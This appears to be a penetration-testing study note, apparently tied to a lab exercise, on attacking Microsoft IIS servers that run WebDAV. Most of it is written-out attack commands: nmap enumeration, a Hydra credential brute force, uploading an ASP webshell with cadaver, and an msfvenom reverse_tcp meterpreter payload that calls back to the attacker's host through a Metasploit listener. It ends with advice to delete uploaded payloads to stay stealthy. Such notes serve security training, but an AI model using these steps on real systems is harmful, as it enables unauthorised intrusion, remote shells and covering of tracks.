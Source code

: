 ```yaml
---
up: "[[Exploiting Windows Vulnerabilities]]"
---
```


# Exploiting Microsoft IIS & WebDAV

## Microsoft IIS

- IIS = Internet Information Services
- It can be used to host websites and provides admins a GUI to manage them
- Can be used to host static or dynamic web pages developed in ASP.NET and PHP
- Typically configured to run on ports 80/443
- Supported file extensions:
	- .asp
	- .aspx
	- .config
	- .php

## WebDAV

- Set of extensions to the HTTP protocol with allow users to collaboratively edit and manage files on remote web servers.
- Enables a web server to function as a file server for collaborative authoring
- Runs on top of Microsoft IIS on ports 80/443
- Implements username and password authentication 

## Exploitation

- Identify whether WebDAV has been configured to run on the IIS web server
- Perform brute-force attack on the server to identify legitimate credentials
- Authenticate to the server and upload a malicious .asp payload to execute arbitrary commands or obtain a reverse shell on the target

## Tools

- [[davtest]]
	- used to scan, authenticate and exploit a WebDAV server
- [[cadaver]]
	- used to authenticate to a WebDAV server and upload/download file and other functionalities

## Demonstration

First step: nmap scan

```bash
nmap -sV -sC <ip>
```

```bash
nmap -sV -p 80 --script http-enum <ip>
```

Navigating to `<ip>/webdav/` ask for credentials.

[[Hydra]] will be used to brute force the server:

```bash
hydra -L common_users.txt -P common_passwords.txt <ip> http-get /webdav/
```

Find the wordlists here: `/usr/share/wordlists/metasploit/common_users.txt`

 2 files on the server:

 - AttackDefense.txt
 - web.config

Test for authentication:

```bash
davtest -url http://<ip>/webdav
```

```bash
davtest -auth <user>:<pass> -url http://<ip>/webdav
```

- Test for file upload
- Test for file execution

We can now use `cadaver` to upload a .asp payload.

Find webshells here: `/usr/share/webshells/*`

```bash
cadaver http://<ip>/webdav
Username:
Password:
dav:/webdav/> ls
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
```

Then visit the `<ip>/webdav/webshell.asp` to start interacting with the target.

## Exploiting with Metasploit

Same technique with [[Metasploit]]

```bash
nmap -sV -p 80 --script http-enum <ip>
```

Generate a payload with [[msfvenom]]

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<my_ip> LPORT=1234 -f asp > shell.asp
```

Connect to the server using [[cadaver]]:

```bash
cadaver http://<ip>/webdav
Username:
Password:
dav:/webdav/> put shell.asp
```

On the website the shell is not present. Before executing the shell we need to setup a listener:

```bash
$ service postgresql start
$ msfconsole
msf6> use multi/handler/
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set LHOST <my_ip>
msf6> set LPORT 1234
msf6> run
```

Now we can execute the shell. Once the session is opened:

```bash
> sysinfo
> getuid
```

Same upload process but without `cadaver`:

```bash
> use exploit/windows/iis/iis_webdav_upload_asp
> set PATH /webdav/shell.asp
```

It is always helpful to be able to do things manually, without the help of Metasploit.

Always delete any payload/exploit uploaded on a server to stay as stealthy as possible.
